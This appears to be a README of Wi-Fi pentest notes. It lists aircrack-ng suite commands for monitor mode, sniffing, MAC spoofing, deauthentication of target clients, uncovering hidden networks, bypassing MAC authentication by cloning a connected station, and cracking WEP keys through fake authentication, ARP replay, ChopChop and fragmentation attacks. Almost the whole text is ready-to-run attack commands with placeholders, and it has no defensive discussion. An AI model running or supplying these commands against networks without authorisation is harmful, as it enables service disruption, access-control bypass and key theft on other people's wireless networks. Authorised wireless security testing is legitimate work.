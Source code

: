 # Wifi Sec pentest

## Status of the wifi card
```
sudo iwconfig
```

## Monitor mode
```
aimon-ng start wlan1
```

```
iwconfig
```

## Scanning wifi - AIRODUMP
```
airodump-ng wlan1mon
```

```
airodump-ng --bssid [[mac]] --channel [[channel]] wlan1mon
```

```
airodump-ng --bssid [[mac]] --channel [[channel]] --write data wlan1mon
```


## Scanning Wifi
```
sudo iwlist wlan1 scan
```

See link quality continuously on screen
```
watch -n 1 cat /proc/net/wireless
```

Using wavemon to scanning wifi
```
sudo apt install wavemon
```
```
sudo wavemon
```

## Mac Change:
```
ifconfig [intname] down
ifconfig [intname] hw ether [new_mac]
ifconfig [intname] up
```

## Set monitor mode:
```
iwconfig
ifconfig [intname] down
airmon-ng check kill
iwconfig [intname] mode monitor
iwconfig
ifconfig [intname] up 
ifconfig
```

## Sniffing wifi:
```
airodump-ng intname_mon
airodump-ng --bssid [bssid] --channel [channel#] --write [file] [intname_mon]
```

## Deauthentication Attack:
```
aireplay-ng --deauth [#DeauthPackets] -a [NetworkMAC] -c [targetMAC] [Interface]
```

## Hidden Networks
Check with airodump-ng, then run a deauth attack and then in airodump-ng on ESSID name should get the hidden network name.

Mac Auth Bypass:
- Check airodump and find the open networks.
- Get airodump on specific network.
- Get a Host to connect, and get the STATION MAC.
- Change MAC to the STATION MAC.
```
ifconfig [intname] down
sudo macchanger -m [mac_add] [int_name]
```

## WEP Cracking

Busy network:
- Capture a large number of packet/IVs
```
airodump-ng --bssid [bssid] --channel [channel#] --write [fileName] [intname_mon]
```
- Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
		
Idle network: (force the AP to generate new IVs) - Fake Authentication
- Capture a large number of packet/IVs
```
airodump-ng --bssid [bssid] --channel [channel#] --write [fileName] [intname_mon]
```
- Fake Authentication
```
aireplay-ng --fakeauth 0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```

Generate traffic:
ARP request replay
```
aireplay-ng --arpreplay -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
- Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII


	ChopChop Attacks
1. Capture a packet and determine its key stream
```
aireplay-ng --chopchop -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
2. Forge a new packet
```
packetforge-ng  -0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] -k 255.255.255.255 -l 255.255.255.255 -y [outFromLastStep.xor] -w [output]
```
3. Inject the forge packet into the traffic to generate new IVs.
```
aireplay-ng -2 -r [outFromLastStep] [intname_mon]
```
4. Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
	
	Fragmentation Attacks
1. Obtain PRGA (pseudo random generation algorithm)
```
aireplay-ng --fragment -b [SSID_MAC] -h [ifconfig_8digits_unspec] [intname_mon]
```
2. Forge a new packet
```
packetforge-ng  -0 -a [SSID_MAC] -h [ifconfig_8digits_unspec] -k 255.255.255.255 -l 255.255.255.255 -y [outFromLastStep.xor] -w [output]
```
3. Inject the forge packet into the traffic to generate new IVs.
```
aireplay-ng -2 -r [outFromLastStep] [intname_mon]
```
4. Analyze the capture IVs and crack the key  (aircrack-ng)
```
aircrack-ng [fileName]
```
	key Found in HEX or ASCII
